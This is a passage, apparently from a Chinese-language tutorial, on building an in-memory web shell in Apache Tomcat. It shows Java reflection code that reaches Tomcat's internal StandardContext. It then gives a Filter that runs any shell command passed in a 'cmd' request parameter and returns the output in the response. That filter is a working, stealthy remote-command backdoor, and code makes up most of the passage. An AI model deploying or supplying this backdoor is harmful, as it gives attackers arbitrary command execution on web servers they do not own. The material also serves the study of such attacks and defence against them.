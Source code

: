 ### 获取standardContext
`standardContext`主要负责管理`session`，`Cookie`，`Servlet`的加载和卸载, 因此在`Tomcat`中的很多地方都有保存。如果我们能够直接获取`request`的时候，可以使用以下方法直接获取`context`。`Tomcat`在启动时会为每个`Context`都创建一个`ServletContext`对象，表示一个`Context`, 从而可以将`ServletContext`转化为`StandardContext`。

```java
ServletContext servletContext = request.getSession().getServletContext();
Field appContext = servletContext.getClass().getDeclaredField("context");
appContext.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);

Field stdContext = applicationContext.getClass().getDeclaredField("context");
stdContext.setAccessible(true);
StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);
```

<div align=center><img src="./images/25.png"></div>

### 创建Filter
直接在代码中实现`Filter`实例，需要重写三个重要方法: `init`、`doFilter`、`destory`。

```java
Filter filter = new Filter() {

    @Override
    public void init(FilterConfig filterConfig) {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {

        HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
        if (httpServletRequest.getParameter("cmd") != null) {
            InputStream inputStream = Runtime.getRuntime().exec(httpServletRequest.getParameter("cmd")).getInputStream();
            Scanner scanner = new Scanner(inputStream).useDelimiter("\\A");
            String output = scanner.hasNext() ? scanner.next() : "";
            servletResponse.getWriter().write(output);
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
};
```
